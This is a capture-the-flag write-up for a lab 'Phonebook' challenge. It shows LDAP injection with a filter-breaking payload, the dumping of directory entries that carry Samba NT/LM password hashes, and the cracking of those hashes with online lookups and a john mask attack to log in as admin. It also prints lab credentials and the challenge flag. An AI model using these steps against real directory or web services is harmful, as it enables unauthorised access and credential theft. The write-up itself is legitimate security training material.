



# Phonebook (5)

Hi, packet inspector,

you should already get access to the phone book – as a new employee – but the AI is too busy right now. This condition can last several ... who knows ... years?

Your task is to gain access to the application running on [http://phonebook.mysterious-delivery.tcc:40000](http://phonebook.mysterious-delivery.tcc:40000).

May the Packet be with you!

## Hints

- Use VPN to get access to the server.

## Solution

### Web enumeration

If we look at the source code of the page, we can see some interesting information to start with.



We found that there is an LDAP server on 10.99.0.121. Let's verify this with nmap.

```
> nmap -p389 10.99.0.121

PORT    STATE   SERVICE
389/tpc open    ldap
```

_Port 389 is default port for LDAP._

There really is an LDAP, let's try to connect to it.

```
> ldapsearch -x -h 10.99.0.121 -p 389 -D "uid=dc=local,dc=tcc"

ldap_bind: Server is unwilling to perform (53)
        additional info: unauthenticated bind (DN with no password) disallowed
```

Unfortunately, we need a password. We have to get it somehow.

### LDAP injection

After several injection attempts using `*)(uid=*))(|(uid=*` worked. This [site](https://book.hacktricks.xyz/pentesting-web/ldap-injection) helped me.


In the gif above we can see the web admin account (`admin2`) and the ldap server account (`ldap_sync`) with password (`gasg35faCasgt%AF`).

### Accessing the LDAP server

We know the password is `gasg35faCasgt%AF`, so let's use it.

```
> ldapsearch -x -h 10.99.0.121 -p 389 -b "dc=local,dc=tcc" -D "uid=ldap_sync,ou=people,dc=local,dc=tcc" -w gasg35faCasgt%AF > ldap-output.txt
```

In the output file we can find NT and LM password hash of admin2 account.

```
...

# admin2, people, local.tcc
dn: uid=admin2,ou=people,dc=local,dc=tcc
objectClass: inetOrgPerson
objectClass: sambaSamAccount
cn: admin2
givenName: admin
sn: admin2
homePhone: 5452487532
mail: admin2@local.tcc
sambaSID: S-1-5-21-1528920847-3529959213-2887712062
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
uid: admin2
description: Admin account

...
```

### Cracking password hash

#### Cracking LM hash

After checking the LM hash (`48448F207404DB05F3BAC3A9216F6D52`) at [crackstation.net](https://crackstation.net/), we can see a lot of partial matches.



But why are there so many partial matches for this LM hash, all containing `toostrong`? Well, the answer is the way LM hashes work.

According to [wikipedia](https://en.wikipedia.org/wiki/LAN_Manager#Security_weaknesses), here is a list of LM security weeknesses:

- Password length is limited to a maximum of 14 characters.
- All passwords are converted into uppercase before generating the hash value. (passWord, pAssWORD, pASSWOrd are same as PASSWORD for LM)
- A 14-character password is broken into 7+7 characters and the hash is calculated for each half separately.

From [rainbowtables.it64.com](http://rainbowtables.it64.com/) we can find out that the plaintext of LM hash is `TOOSTRONG.`.

#### Cracking NT hash

We definitely know that part of the password is `TOOSTRONG.`, but there's a catch, **we don't know the case of any character and also the password may actually be longer than only 14 characters.**

In this case we will use [john the ripper](https://github.com/openwall/john) to crack the NT hash (`32644235283BC5561CC7FE4FFFADDAEE`).

After a few attempts with different mask length, I cracked the password, it actually has 18 characters.

```
> john -mask="[tT][oO][oO][sS][tT][rR][oO][nN][gG][pP][aA][sS][sS].[0-9a-Z][0-9a-Z][0-9a-Z][0-9a-Z]" ./nt-hash.txt --format=NT

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
TooStrongPass.2022 (?)
```

The password for web admin (admin2) is `TooStrongPass.2022`.

### Getting flag

We know the login credentials for the web admin, there's not much left, so let's log in.



`FLAG{iLcT-HnNF-egs3-mCSN}`
